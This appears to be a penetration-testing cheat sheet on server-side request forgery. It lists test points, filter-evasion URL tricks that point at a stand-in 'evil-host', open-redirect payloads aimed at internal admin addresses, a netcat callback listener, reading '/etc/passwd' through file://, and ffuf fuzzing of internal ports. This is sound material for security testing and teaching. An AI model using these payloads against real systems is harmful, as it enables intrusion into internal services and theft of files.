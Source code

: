 - Check Parts of HTTP requests, including URLs
- Check File imports such as HTML, PDFs, images, etc.
- Check Remote server connections to fetch data
- Check API specification imports
- Check Dashboards including ping and similar functionalities to check server statuses
- As time allows, try to provide APIs with input in various **formats/encodings**
	- `127.1`
	- `017700000001`
	- `double url encode` etc.
* You can embed credentials in a URL before the hostname, using the `@` character `https://expected-host:fakepassword@evil-host`
- You can use the `#` character to indicate a URL fragment `https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control `https://expected-host.evil-host`

- Check for open redirects
```http
/product/nextProduct?currentProductId=6&path=http://evil-user.net

POST /product/stock 
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

* Start Netcat and see if Server connects back to us
```sh
$ nc -nvlp 8080

listening on [any] 8080 ...
```

* Create a HTML page and cURL the target page to see if it fetches it
```html
<html>
</body>
<a>SSRF</a>
<body>
<html>
```

```sh
$ curl -i -s "http://<TARGET IP>/load?q=ftp://<Adapter-IP>/index.html"
```

* Curl the target page and see whats on there
```sh
# Without Redirect
$ curl -i -s http://<TARGET IP>

# With Redirect
$ curl -i -s -L http://<TARGET IP>
```

* Use `file:///etc/passwd` to read internal files

* When SSRF found try to fuzz internal ports
```sh
# Create port wordlist
$ for port in {1..65535};do echo $port >> ports.txt;done

# Fuzz internal ports
$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```

## Blind SSRF
* Arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response
* Most reliable way to detect blind SSRF vulnerabilities is using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques
* This involves attempting to trigger an HTTP request to an external system that you control, and monitoring for network interactions with that system
* Some applications employ server-side analytics software that tracks visitors. This software often logs the **Referer header** in requests, since this is of particular interest for tracking incoming links. Often the analytics software will actually visit any third-party URL that appears in the Referer header. This is typically done to analyze the contents of referring sites, including the anchor text that is used in the incoming links. As a result, the Referer header often represents fruitful attack surface for SSRF vulnerabilities